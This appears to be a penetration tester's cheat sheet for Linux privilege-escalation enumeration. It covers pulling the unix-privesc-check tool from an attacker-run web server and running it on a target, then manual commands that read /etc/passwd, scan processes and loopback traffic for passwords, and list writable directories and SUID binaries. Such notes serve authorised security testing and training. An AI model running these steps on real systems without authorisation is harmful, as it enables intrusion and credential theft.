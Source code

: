 # Linux Enumeration

## Automatic Enumeration

### unix-privesc-check

On Kali host:
```bash
cp /usr/bin/unix-privesc-check/unix-privesc-check .
python3 -m http.server
```
On target machine:
```bash
wget http://<our IP>/unix-privesc-check
```
```bash
chmod +x unix-privesc-check
```
```bash
unix-privesc-check standard > output.txt
```
The `output.txt` file is meaty, and in standard mode it isn't complete, but it's a good start. The most obvious thing to do immediately is:
```bash
cat output.txt | grep -A 10 writable
```
This is just a quick start. Worth going over the file carefully if nothing immediately jumps out.

## Manual Enumeration
For fine grained/specific enumeration items see the glossary below. Hopefully a standard privesc check as detailed above should be sufficient, but in case it isn't.

### Misc.
Get context about the current user:
```bash
id
```
Enumerate users on the machine:
```bash
cat /etc/passwd
```
Enumerate the functional role of the machine:
```bash
hostname
```
OS and system version enumeration:
```bash
uname -a
```
alternatives to the same effect:
```bash
cat /etc/os-release
```
```bash
cat /etc/issue
```
Inspect environment variables:
```bash
env
```
Check the .bashrc:
```bash
cat ~/.bashrc
```

### Processes
List running processes:
```bash
ps aux
```
Search running processes for foolishness:
```bash
watch -n 1 "ps -aux | grep pass"
```

### Networking
TCP/IP information:
```bash
ifconfig a
```
Or if you happen to be prodding at a RHEL or Arch machine for some god forsaken reason:
```bash
ip a
```
Network routing information on Debian based systems:
```bash
routel 
```
or if that fails:
```bash
route
```
To see active network connections:
```bash
ss -anp
```
The `iptables` command is unlikely to be available to our peon-tier user by default on account of it being an admin privilege by default. However we may still be able to view some config via:
```bash
cat /etc/iptables/rules.v4
```
Some basic packet capture:
```bash
sudo tcpdump -i lo -A | grep "pass"
```
### Cronjobs
Enumerate cron jobs:
```bash
ls -lah /etc/cron*
```
and the current users scheduled jobs:
```bash
crontab -l
```
Jobs running as root will not appear when querying like this, for that run as root (although its hard to imagine when we might want to do this if we already have root...):
```bash
sudo crontab -l
```
Inspect the cron logs:
```bash
grep "CRON" /var/log/syslog
```

### Packages, Modules & Disks
Packages installed via `dpkg` (Debian package manager):
```bash
dpkg -l
```
List drives mounted at boot time:
```bash
cat /etc/fstab
```
in addition `mount` should tell us everything that's currently mounted:
```bash
mount
```
Available disks:
```bash
lsblk
```
Loaded kernel modules:
```bash
lsmod
```
For more info on a kernel module that we've taken an interest in:
```bash
/sbin/modinfo <intriguing module>
```

### File permissions
```bash
ls -l
```
Find every directory the current user can write to:
```bash
find / -writable -type d 2>/dev/null
```
Find SUID marked binaries:
```bash
find / -perm -u=s -type f 2>/dev/null
```
